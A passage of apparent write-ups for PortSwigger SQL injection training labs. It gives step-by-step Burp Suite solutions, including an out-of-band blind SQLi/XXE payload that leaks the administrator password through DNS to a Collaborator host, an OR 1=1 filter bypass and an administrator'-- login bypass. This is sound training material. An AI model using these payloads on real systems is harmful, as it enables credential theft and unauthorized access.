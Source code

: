 
### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.


### Solution
1. Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the ``TrackingId`` cookie.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``TrackingId`` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
6. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the ``administrator`` user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
7. In your browser, click "My account" to open the login page. Use the password to log in as the ``administrator`` user.

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Reference: https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data


### Quick Solution
In this lab the payload is quite easy, the goal is to retrieve hidden items. See next section for the solution.


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the ``category`` parameter, giving it the value ``'+OR+1=1--``
3. Submit the request, and verify that the response now contains additional items.

## Lab: SQL injection vulnerability allowing login bypass
Reference: https://portswigger.net/web-security/sql-injection/lab-login-bypass


### Quick Solution
In this lab the payload is quite easy, the goal is to login as ``administrator``. See next section for the solution.


### Solution
1. Use Burp Suite to intercept and modify the login request.
2. Modify the ``username`` parameter, giving it the value: ``administrator'--``